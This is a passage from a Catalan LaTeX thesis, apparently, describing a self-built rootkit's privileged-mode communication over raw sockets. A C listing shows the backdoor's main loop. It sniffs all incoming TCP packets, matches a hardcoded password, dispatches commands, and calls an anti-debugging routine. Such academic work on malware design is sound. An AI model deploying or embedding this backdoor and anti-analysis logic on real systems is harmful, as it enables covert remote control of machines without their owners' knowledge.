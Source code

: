 En l'entorn privilegiat, el nostre rootkit s'aprofita de la possibilitat de poder utilitzar raw sockets 
per tal d'implementar modes de comunicació pensats per comunicar-se amb sistemes molt protegits i xarxes 
molt restrictives, així com de la possibilitat de debugar serveis del sistema. \\

Una descripció més conceptual del funcionament d'aquest protocol de comunicació, ha estat comentada en 
detall amb l'ajuda d'esquemes en la secció \ref{sec:disseny_mode_privilegiat} del capítol de disseny de la 
solució. Per al major 
aprofitament d'aquest punt, se'n recomana la lectura prèvia. \\

\subsection{Modes de comunicació}
Tal i com es pot veure en la figura \ref{fig:launcher_raw_daemon}, quan el rootkit es troba en execució en un entorn 
privilegiat, es troba executant un bucle on cada paquet de xarxa que arriba a la màquina (independentment
de si el port de destí està obert o no), és rebut per la funció recvfrom i processat a continuació. Com que
la majoria de paquets que rebrà una màquina, no seran paquets nostres, ens interessa que aquesta funció 
tingui la menor latència possible per afectar el mínim possible a la màquina on s'executi el nostre 
rootkit. \\

\begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
sock @PYbe[=] socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
@PYay[if] (sock @PYbe[<] @PYag[0]) {
    debug(@PYaB["]@PYaB[Can't allocate raw socket]@PYao[\n]@PYaB["]);
    exit(@PYbe[-]@PYag[1]);
}

antidebug_obfuscate_analysis(@PYag[16]);

@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) 
            @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        }
    }
}
\end{Verbatim}
    \caption{Bucle principal on es reben tots els paquets que arriben a la màquina}
    \label{fig:launcher_raw_daemon}
\end{figure}


